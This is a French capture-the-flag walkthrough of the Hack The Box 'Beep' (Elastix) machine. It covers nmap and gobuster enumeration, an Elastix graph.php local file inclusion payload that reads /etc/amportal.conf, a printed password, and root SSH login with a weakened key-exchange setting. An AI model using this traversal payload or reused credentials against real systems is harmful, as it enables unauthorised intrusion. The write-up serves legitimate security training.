


# Box 


```diff
+ Niveau: Facile
```

Il existe plusieurs façon de resoudre cette box au travers des différents services exposés. J'ai choisi de montrer celle qui m'a permis de root la box moi même.

* **LFI**
* **mot de passe réutilisé**
* **SSH**


# FootHold

La première chose que je fais que je m'attaque à une box HTB c'est d'ajouter la résolution de nom box.htb à mon fichier /etc/hosts:

`echo "10.129.152.59	beep.htb"`

## Enumération des ports 

Scannons d'abords tout les ports:

`nmap 10.129.151.94 -p-` 

```
PORT      STATE SERVICE
22/tcp    open  ssh
25/tcp    open  smtp
80/tcp    open  http
110/tcp   open  pop3
111/tcp   open  rpcbind
143/tcp   open  imap
443/tcp   open  https
944/tcp   open  unknown
993/tcp   open  imaps
995/tcp   open  pop3s
3306/tcp  open  mysql
4190/tcp  open  sieve
4445/tcp  open  upnotifyp
4559/tcp  open  hylafax
5038/tcp  open  unknown
10000/tcp open  snet-sensor-mgmt
```

Nous effectuons maintenant un scan plus complet sur les ports désignés (option -p):

`nmap 10.129.151.94 -p 22,25,80,110,111,143,443,944,993,995,3306,4190,4445,4559,5038,10000 -A `

```
22/tcp    open  ssh        OpenSSH 4.3 (protocol 2.0)
| ssh-hostkey: 
|   1024 ad:ee:5a:bb:69:37:fb:27:af:b8:30:72:a0:f9:6f:53 (DSA)
|_  2048 bc:c6:73:59:13:a1:8a:4b:55:07:50:f6:65:1d:6d:0d (RSA)
25/tcp    open  smtp?
|_smtp-commands: beep.localdomain, PIPELINING, SIZE 10240000, VRFY, ETRN, ENHANCEDSTATUSCODES, 8BITMIME, DSN, 
80/tcp    open  http       Apache httpd 2.2.3
|_http-server-header: Apache/2.2.3 (CentOS)
|_http-title: Did not follow redirect to https://10.129.151.94/
|_https-redirect: ERROR: Script execution failed (use -d to debug)
110/tcp   open  pop3?
111/tcp   open  rpcbind    2 (RPC #100000)
143/tcp   open  imap?
443/tcp   open  ssl/https?
|_ssl-date: 2021-05-25T14:38:08+00:00; 0s from scanner time.
944/tcp   open  status     1 (RPC #100024)
993/tcp   open  imaps?
995/tcp   open  pop3s?
3306/tcp  open  mysql?
|_mysql-info: ERROR: Script execution failed (use -d to debug)
4190/tcp  open  sieve?
4445/tcp  open  upnotifyp?
4559/tcp  open  hylafax?
5038/tcp  open  asterisk   Asterisk Call Manager 1.1
10000/tcp open  http       MiniServ 1.570 (Webmin httpd)
|_http-server-header: MiniServ/1.570
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
```

## Site Web http:// deep.htb  et https:// deep.htb

Le site force l'usage d'HTTPS, il n'y a donc "rien à voir" sur le port 80 et nous sommes redirigés vers le port 443.

Il s'agit d'Elastix: 


### Enumération Web 

Pour se faire, j'utilise gobustrer, que je trouve très puissant (en terme de rapidité) et très complet (en termes d'options).

```
# Version "complete" installé via Github
gobuster dir -u https://deep.htb -w /usr/share/wordlists/SecLists-master/Discovery/Web-Content/directory-list-2.3-medium.txt -x html,php,txt -k

# Version "short" installé via apt

gobuster -u https://deep.htb -w /usr/share/wordlists/SecLists-master/Discovery/Web-Content/directory-list-2.3-medium.txt -x html,php,txt -k
```

_NB: Ne pas oublier l'option -k qui permet d'utiliser le mode "insecure" et donc d'ingorer les certificats SSL du site HTTPs._

```
/index.php (Status: 200)
/images (Status: 301)
/help (Status: 301)
/register.php (Status: 200)
/themes (Status: 301)
/modules (Status: 301)
/mail (Status: 301)
/admin (Status: 301)
/static (Status: 301)
/lang (Status: 301)
/config.php (Status: 200)
/robots.txt (Status: 200)
/var (Status: 301)
/panel (Status: 301)
/libs (Status: 301)
/recordings (Status: 301)
/configs (Status: 301)
```

Après avoir fouillé un peu partout il ne semble pas y avoir de choses intéressantes à première vue.


### Recherche de faille:

Lorsqu'il s'agit de rechercher une faille, j'aime utiliser l'outil "searchsploit" disponible sur Kali.

`searchsploit elastix`

Parmis les failles proposés, celle qui me semble pour l'instant intéressante est la [LFI sur le graph.php](https://www.exploit-db.com/exploits/37637).

> LFI Exploit: /vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action

On se rend donc sur la page: https://deep.htb/vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action

L'affichage n'est pas optimal, pour y voit plus clair: `CTRL + U` pour afficher le code source



On voit que le mot de passe suivant est utilisé un peu partout: **jEhdIekWmdjE**


# Root

## Accès SSH

Lorsque qu'on essaie de se connecter à l'utilisateur root via ssh (et le mot de passe: jEhdIekWmdjE ) un message d'erreur apparaît:

```
ssh root@beep.htb

Unable to negotiate with 10.129.152.59 port 22: no matching key exchange method found. Their offer: diffie-hellman-group-exchange-sha1,diffie-hellman-group14-sha1,diffie-hellman-group1-sha1`
```

Pour régler ce problème:

`echo "KexAlgorithms +diffie-hellman-group1-sha1" >> ~/.ssh/config`

**NB**: On n'oubliera pas d'effacer ce fichier/cette ligne à la fin du CTF.

Il est maintenant possible de se connecter en root.
